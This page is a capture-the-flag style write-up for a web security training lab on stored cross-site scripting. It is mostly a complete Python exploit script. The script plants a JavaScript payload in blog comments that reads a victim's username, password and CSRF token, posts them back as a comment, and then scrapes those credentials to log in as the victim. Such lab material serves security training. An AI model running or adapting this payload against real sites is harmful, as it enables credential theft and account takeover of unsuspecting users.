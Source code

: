```yaml
---
title: 'XSS Lab 23'
description: 'Stored XSS in blog comments used to capture victim username and password via forced comment submission'
---
```



## Exploiting cross-site scripting to capture passwords

<div style="text-align: justify;">
  This lab contains a stored cross-site scripting (XSS) vulnerability in the blog comments function. The exploit leverages XSS to force the victim's browser to submit their username and password as a new comment (a CSRF-style approach using the victim's own authenticated session). Because the Academy firewall blocks arbitrary external interactions, the recommended approach uses Burp Collaborator; however this exploit demonstrates an alternative that posts credentials directly to the site comments, allowing the attacker to read them from the post page and use them to log in as the victim.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The blog comment field is stored and later rendered to visitors, which creates a stored XSS sink.
- Inject HTML inputs plus JavaScript that, when a victim types their credentials (or when triggered), reads the page CSRF token and the values of `username` and `password` inputs.
- The script submits a new comment containing `username:password` using `fetch()` with `mode: 'no-cors'` (so the request originates from the victim's browser and is processed by the site).
- The attacker polls the post page and extracts posted credentials from comment content.
- Use captured credentials to log in as the victim and access pages like `/my-account` to confirm the attack and solve the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import re
import sys
import time
import requests
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}


def check_burp():
    try:
        requests.get("http://127.0.0.1:8080", proxies=proxies, timeout=3, verify=False)
    except Exception:
        print("[-] Burp Suite not running.")
        sys.exit(1)


def submit_payload(session, base_url, payload):
    """Submits the XSS payload to postId=4."""
    post_page = f"{base_url}/post?postId=4"
    r = session.get(post_page)
    r.raise_for_status()

    soup = BeautifulSoup(r.text, "html.parser")
    csrf = soup.find("input", {"name": "csrf"})["value"]

    print("[*] Submitting payload as comment ...")

    data = {
        "csrf": csrf,
        "postId": "4",
        "comment": payload,
        "name": "exploit",
        "email": "exploit@lab.local",
        "website": "http://example.com",
    }
    session.post(f"{base_url}/post/comment", data=data)


def poll_for_credentials(session, base_url, timeout=30):
    """Polls the post page for captured credentials until timeout."""
    post_page = f"{base_url}/post?postId=4"
    print(f"[*] Polling post page for up to {timeout}s...")

    start = time.time()
    creds = []

    while time.time() - start < timeout:
        r = session.get(post_page)
        r.raise_for_status()

        matches = re.findall(r"([A-Za-z0-9_]+):([A-Za-z0-9_]+)", r.text)
        for m in matches:
            if m not in creds:
                creds.append(m)
                print(f"[+] Captured credentials: {m[0]}:{m[1]}")

        if creds:
            return creds
        time.sleep(2)

    print("[-] Timeout reached, no credentials captured.")
    return []


def try_login(session, base_url, username, password):
    """Attempts login with captured credentials."""
    login_url = f"{base_url}/login"
    r = session.get(login_url)
    r.raise_for_status()

    soup = BeautifulSoup(r.text, "html.parser")
    csrf = soup.find("input", {"name": "csrf"})["value"]

    data = {"csrf": csrf, "username": username, "password": password}
    resp = session.post(login_url, data=data)

    if "Your username is" in resp.text or "Log out" in resp.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")
        check_lab(session, base_url)
        return True
    print("[-] Login failed (incorrect credentials or login flow differs).")
    return False


def check_lab(session, base_url):
    """Checks if the lab is solved."""
    resp = session.get(base_url + "/")
    if "Congratulations" in resp.text or "LAB SOLVED" in resp.text:
        print("[+] Lab solved 🎉")
        return True
    print("[-] Lab not solved.")
    return False


def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        sys.exit(1)

    base_url = sys.argv[1].rstrip("/")
    check_burp()
    print("[*] Attempting XSS on postId=4...")

    s = requests.Session()
    s.proxies = proxies
    s.verify = False

    payload = """
<script>
function hax() {
  try {
    var token = document.getElementsByName('csrf')[0].value;
    var username = document.getElementsByName('username')[0].value;
    var password = document.getElementsByName('password')[0].value;
    var data = new FormData();
    data.append('csrf', token);
    data.append('postId', 4);
    data.append('comment', username + ':' + password);
    data.append('name', 'victim');
    data.append('email', 'zenshell@zenshell.ninja');
    data.append('website', 'http://www.zenshell.ninja');
    fetch('/post/comment', { method: 'POST', mode: 'no-cors', body: data });
  } catch(e) {}
}
</script>
<input type="text" name="username">
<input type="password" name="password" onchange="hax()">
"""

    submit_payload(s, base_url, payload)
    creds = poll_for_credentials(s, base_url, timeout=30)

    if not creds:
        print("[-] No credentials found. Exiting.")
        return

    for username, password in creds:
        print(f"[*] Trying next captured credential: {username}:{password}")
        if try_login(s, base_url, username, password):
            print("[+] Exploit finished: lab solved or credentials used.")
            return

    print("[-] Exploit finished without success.")


if __name__ == "__main__":
    main()
```